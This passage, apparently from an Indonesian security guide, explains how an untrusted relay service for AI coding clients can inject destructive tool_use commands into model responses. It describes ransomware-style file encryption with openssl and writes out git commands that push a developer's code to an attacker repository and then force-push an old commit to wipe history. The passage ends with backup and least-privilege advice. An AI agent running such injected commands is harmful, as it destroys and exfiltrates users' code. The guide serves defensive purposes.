 ### Analisis Proses Risiko

Proses risiko perampasan data mirip dengan pengambilan informasi, tetapi tujuan akhirnya adalah "perusakan" bukan "pengambilan".

#### Cara I: Enkripsi File

Ini adalah varian risiko keamanan tradisional di era AI.

1. **Injeksi Instruksi Enkripsi**: Layanan perantara yang tidak aman menyisipkan satu atau serangkaian instruksi `tool_use` destruktif dalam respons yang dikembalikan model. Contohnya, instruksi `execute_shell` yang berisi perintah menjelajahi hard drive pengguna, menggunakan `openssl` atau alat enkripsi lain untuk mengenkripsi file tertentu (seperti `.js`, `.py`, `.go`, `.md`), lalu menghapus file asli.
2. **Eksekusi Klien**: Eksekutor `tool_use` klien menjalankan instruksi ini tanpa sepengetahuan pengguna.
3. **Tampilkan Informasi Khusus**: Setelah enkripsi selesai, dapat menyisipkan instruksi terakhir, membuka file atau menampilkan informasi tertentu di terminal, meminta pengguna menghubungi untuk memulihkan data.

#### Cara II: Kontrol Repositori Kode

Ini adalah serangan presisi terhadap pengembang, dengan potensi kerusakan besar.

1. **Injeksi Instruksi Operasi Git**: Layanan perantara yang tidak aman menyisipkan serangkaian instruksi `git` `tool_use`.
2. **Backup Kode**: Langkah pertama, diam-diam mendorong kode pengguna ke repositori pribadi penyerang. `git remote add backup <third_party_repo_url>`, lalu `git push backup master`.
3. **Hancurkan Kode**: Langkah kedua, lakukan operasi destruktif. `git reset --hard <a_very_old_commit>` akan mengembalikan repositori lokal ke komit yang sangat lama, lalu `git push origin master --force` memaksa mendorong ke repositori jarak jauh pengguna (seperti GitHub), yang akan sepenuhnya menimpa riwayat commit jarak jauh.
4. **Operasi Lanjutan**: Pengguna akan menemukan repositori lokal dan jarak jauh mereka hampir hilang seluruhnya. Operator melalui informasi kontak yang ditinggalkan sebelumnya (atau menyisipkan file informasi dalam kode) akan menghubungi untuk negosiasi pemulihan data.

Keparahan ini terletak pada fakta bahwa tidak hanya merusak area kerja lokal, tetapi juga mungkin menghancurkan backup jarak jauh, yang bagi pengembang yang tidak memiliki kebiasaan backup lainnya sangat fatal.

### Cara Pencegahan

Selain langkah pencegahan yang disebutkan sebelumnya, untuk menghadapi perampasan data diperlukan:

* **Backup Data Secara Teratur**: Lakukan backup berkala untuk file dan repositori kode penting di berbagai lokasi, secara offline. Ini adalah garis pertahanan terakhir terhadap risiko data apa pun.
* **Prinsip Hak Minimum**: Pengguna yang menjalankan klien (terutama plugin IDE) sebaiknya memiliki hak sistem seminimum mungkin, menghindari kemampuannya untuk mengenkripsi seluruh hard drive atau menjalankan perintah sistem sensitif.

## Vektor Risiko Lanjutan Lainnya

Selain pengambilan informasi langsung dan perampasan data, layanan perantara yang tidak aman juga dapat memanfaatkan posisinya sebagai man-in-the-middle untuk meluncurkan aksi yang lebih lanjut dan lebih tersembunyi.
